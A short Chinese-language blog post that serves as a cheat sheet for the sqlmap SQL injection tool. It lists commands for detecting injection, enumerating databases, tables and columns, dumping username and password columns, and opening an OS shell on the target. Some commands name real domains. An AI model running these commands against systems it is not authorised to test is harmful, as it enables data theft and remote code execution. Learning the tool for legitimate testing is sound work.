 ```yaml
---
title: sqlmap使用
date: 2018-06-08 09:45:39
tags: web安全
---
```


# sqlmap使用手册

sqlmap一共5个级别，级别越高，检测越全面

1. 检测

   默认使用level1，检测全部数据库类型

   >  sqlmap -u “http://www.vuln.cn/post.php?id=1”

2. 只检测mysql

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3

3. 检测cookie(（只有level达到2才会检测cookie）)

   >  sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2

4. post注入

   request.txt: 首先需要抓包，然后将数据包保存到requests.txt

   > sqlmap -r “c:\tools\request.txt” -p “username” –dbms mysql    
   >
   > 指定username参数

   或者:

   > python sqlmap.py -u "http://www.target.com/vuln.php" --data="id=1" -f --dbs

5. 查询有哪些数据库

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql -–level 3 –-dbs

6. 查询有哪些表(以test数据库为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql –-level 3 -D test -–tables

7. 查询字段(以test数据库下的admin表为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  –-dbms mysql –-level 3 -D test -T admin –-columns

8. 查询数据(以test数据库下的admin表为例)

   > sqlmap -u “http://www.vuln.cn/post.php?id=1”  -–dbms mysql –-level 3 -D test -T admin -C “username,password” –-dump

9. 使用shell命令

   > sqlmap -r “c:\tools\request.txt” -p id –-dbms mysql –-os-shell

10. 使用tamper

    >  sqlmap.py -u http://chinalover.sinaapp.com/SQL-GBK/index.php?id=3 --tamper unmagicquotes --dbs --hex

11. 保存进度

    > sqlmap -u “http://url/news?id=1“ –-dbs-o “sqlmap.log” 保存进度
    >
    > sqlmap -u “http://url/news?id=1“ -–dbs-o “sqlmap.log” –resume 恢复已保存进度

    